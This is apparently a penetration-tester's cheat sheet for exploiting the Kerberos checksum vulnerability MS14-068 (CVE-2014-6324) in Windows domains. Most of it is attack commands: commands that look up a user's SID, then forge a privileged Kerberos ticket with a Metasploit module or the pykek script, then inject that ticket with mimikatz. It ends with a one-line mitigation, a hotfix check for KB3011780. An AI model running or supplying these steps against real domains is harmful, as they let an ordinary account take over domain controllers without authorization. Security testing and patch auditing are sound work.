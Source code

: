 # Kerberos Checksum Vulnerability MS14-068 CVE-2014-6324

## Steps:

###  1: This exploit require to know the user SID, you can use rpcclient to remotely get it or wmi if you have an access on the machine.

## 1) RPCClient

 - rpcclient $> lookupnames john.smith

## 2) WMI

 - wmic useraccount get name,sid

## 3) Powerview

 - Convert-NameToSid high-sec-corp.localkrbtgt

## 4) CrackMapExec

 - crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid

### 2: Generate a ticket with metasploit or pykek

## 1) Metasploit

 - Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

## 2) Python Kerberos Exploitation Kit (pykek)

 - $ python ./ms14-068.py -u USERNAME@DOMAIN_NAME -s USER_SID  (-p PASS) -d DOMAIN_CONTROLLER_ADDRESS
 

### 3: Then use mimikatz to load ticket

 - mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"

## Mitigations

### Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

